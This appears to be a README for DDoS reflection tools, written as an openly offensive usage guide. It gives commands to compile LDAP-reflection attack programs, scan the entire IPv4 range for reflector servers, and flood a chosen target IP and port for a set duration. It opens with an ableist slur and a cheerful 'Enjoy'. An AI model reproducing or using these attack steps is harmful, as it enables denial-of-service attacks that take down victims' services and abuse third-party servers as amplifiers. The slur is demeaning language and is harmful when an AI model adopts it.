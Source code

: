 # For DDoS retards
# Enjoy
# >Commands< 
gcc -o NAME NAME.C -pthread

EX - gcc -o ldap ldap.c -pthread
# >Scanning<
./name 1.1.1.1 255.255.255.255 name.txt 2 1ms

./ldapscan 1.1.1.1 255.255.255.255 ldap.txt 2 1ms

1.1.1.1 defines starting range; 255.255.255.255 defines end scan range; the name.txt is the reflection file you are scanning

the (2) is the amount of threads this process takes to run
# >Hit<

./name IP PORT name.txt 2 -1 TIME

EX ./ldap 1.1.1.1 80 ldap.txt 2 -1 500
# :) 
